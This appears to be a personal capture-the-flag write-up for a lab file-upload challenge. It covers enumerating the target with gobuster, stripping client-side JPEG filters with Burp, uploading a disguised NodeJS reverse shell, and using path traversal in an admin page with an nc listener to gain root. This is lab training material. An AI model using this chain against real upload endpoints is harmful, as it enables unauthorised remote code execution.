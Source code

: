 ==Upload Vulns Challenge   Flutter Aug 13 2021===


## Enumeration ##

--------------------------------------
	Visiting jewel.uploadvulns.thm
--------------------------------------

wappalyzer

	Web Frameworks: Express

	Programming Languages: Node.js

	Web Servers: Express, Nginx 1.17.6

	JS Libraries: jQuery 3.5.1

	Reverse Proxies: Nginx 1.17.6


curl http://jewel.uploadvulns.thm/ > target_sourcecode

	<!DOCTYPE html>
	<html>
		<head>
			<title>Jewel</title>
			<meta charset="utf-8">
			<meta name="viewport" content="width=device-width, initial-scale=1.0, user-scalable=no">
			<link type="text/css" rel="stylesheet" href="assets/css/style.css">
			<link type="text/css" rel="stylesheet" href="assets/css/cinzel.css">
			<link type="text/css" rel="stylesheet" href="assets/css/exo.css">
			<link type="text/css" rel="stylesheet" href="assets/css/icons.css">
			<link type="image/x-icon" rel="shortcut icon" href="assets/favicon.ico">
			<script src="assets/js/jquery-3.5.1.min.js"></script>
			<script src="assets/js/jquery.colour-2.2.0.min.js"></script>
			<script src="assets/js/upload.js"></script>
			<script src="assets/js/backgrounds.js"></script>
		</head>
		<body>
			<div id="one" class="background"></div>
			<div id="two" class="background" style="display:none;"></div>
			<div id="three" class="background" style="display:none;"></div>
			<div id="four" class="background" style="display:none;"></div>
			<main>
				<object ondragstart="return false;" ondrop="return false;" id="title" data="/assets/title.svg" type="image/svg+xml"></object>
				<p>Have you got a nice image of a gem or a jewel?<br>Upload it here and we'll add it to the slides!</p>
				<button class="Btn" id="uploadBtn"><i id="uploadIcon" class="material-icons">backup</i> Select and Upload</button>
				<input id="fileSelect" type="file" name="fileToUpload" accept="image/jpeg">
			</main>
			<p id="responseMsg" style="display:none;"></p>
		</body>
	</html>		

- Line 7-15

		<link type="text/css" rel="stylesheet" href="assets/css/style.css">
		<link type="text/css" rel="stylesheet" href="assets/css/cinzel.css">
		<link type="text/css" rel="stylesheet" href="assets/css/exo.css">
		<link type="text/css" rel="stylesheet" href="assets/css/icons.css">
		<link type="image/x-icon" rel="shortcut icon" href="assets/favicon.ico">
		<script src="assets/js/jquery-3.5.1.min.js"></script>
		<script src="assets/js/jquery.colour-2.2.0.min.js"></script>
		<script src="assets/js/upload.js"></script>
		<script src="assets/js/backgrounds.js"></script>
	
> sourced CSS and JS from directory "assets/"

- Line 14

		<script src="assets/js/upload.js"></script>
	
> let's check that out

- /assets/js/upload.js 
	
		$(document).ready(function(){let errorTimeout;const fadeSpeed=1000;function setResponseMsg(responseTxt,colour){$("#responseMsg").text(responseTxt);if(!$("#responseMsg").is(":visible")){$("#responseMsg").css({"color":colour}).fadeIn(fadeSpeed)}else{$("#responseMsg").animate({color:colour},fadeSpeed)}clearTimeout(errorTimeout);errorTimeout=setTimeout(()=>{$("#responseMsg").fadeOut(fadeSpeed)},5000)}$("#uploadBtn").click(function(){$("#fileSelect").click()});$("#fileSelect").change(function(){const fileBox=document.getElementById("fileSelect").files[0];const reader=new FileReader();reader.readAsDataURL(fileBox);reader.onload=function(event){

			//Check File Size
			if (event.target.result.length > 50 * 8 * 1024){
				setResponseMsg("File too big", "red");			
				return;
			}
			//Check Magic Number
			if (atob(event.target.result.split(",")[1]).slice(0,3) != "ÿØÿ"){
				setResponseMsg("Invalid file format", "red");
				return;	
			}
			//Check File Extension
			const extension = fileBox.name.split(".")[1].toLowerCase();
			if (extension != "jpg" && extension != "jpeg"){
				setResponseMsg("Invalid file format", "red");
				return;
			}


		const text={success:"File successfully uploaded",failure:"No file selected",invalid:"Invalid file type"};$.ajax("/",{data:JSON.stringify({name:fileBox.name,type:fileBox.type,file:event.target.result}),contentType:"application/json",type:"POST",success:function(data){let colour="";switch(data){case "success":colour="green";break;case "failure":case "invalid":colour="red";break}setResponseMsg(text[data],colour)}})}})});
		
> Client side filters!<br>Will remove later with Burp 

- Line 26

	<input id="fileSelect" type="file" name="fileToUpload" accept="image/jpeg">
		
> Client-Side filtering for MIME type "image/jpeg"


- Checking dev tools on site finds the background images are sourced from directory /content 
	
> may be where our uploads go


gobuster dir -u http://jewel.uploadvulns.thm/ -w directory-list-2.3-medium.txt -o gobuster_jewel

	/content (Status: 301)
	/modules (Status: 301)
	/admin (Status: 200)
	/assets (Status: 301)
	/Content (Status: 301)
	/Assets (Status: 301)
	/Modules (Status: 301)
	/Admin (Status: 200)

> 301 redirects are 404 errors

/admin panel

	Admin Page

	As a reminder: use this form to activate modules from the /modules directory.

	Enter filename to execute
	
> seems to be a page to execute files on the server located under /modules



------------
	Burp
------------

Intercepting requests and responses

Intercept of /assets/js/upload.js to remove client-side filters

	//Check File Size
		if (event.target.result.length > 50 * 8 * 1024){
			setResponseMsg("File too big", "red");			
			return;
		}
	//Check Magic Number
		if (atob(event.target.result.split(",")[1]).slice(0,3) != "ÿØÿ"){
			setResponseMsg("Invalid file format", "red");
			return;	
		}
	//Check File Extension
		const extension = fileBox.name.split(".")[1].toLowerCase();
		if (extension != "jpg" && extension != "jpeg"){
			setResponseMsg("Invalid file format", "red");
			return;
		}


Uploading reverse shell for NodeJS from PayloadsAllTheThings
	
> renamed it "cat.jpg"<br>Success!
	
Going to http://jewel.uploadvulns.thm/content/cat.jpg

> hmm nothing, maybe they alter the file names

gobuster dir -u http://jewel.uploadvulns.thm/content -w UploadVulnsWordlist -x jpg

	/ABH.jpg (Status: 200)
	/LKQ.jpg (Status: 200)
	/OXW.jpg (Status: 200)
	/QOY.jpg (Status: 200)
	/SAD.jpg (Status: 200)
	/UAD.jpg (Status: 200)

QOY.jpg returns "contains errors", this is our shell, but it didn't run?

If /admin panel runs modules from the /modules dir, what if we try to move out of the /modules dir


Starting nc listener
executing ../content/QOY.jpg

> Success!

## RCE ##

whoami
	
	root
id

	uid=0(root) gid=0(root) groups=0(root)

cat /var/www/flag.txt returned flag
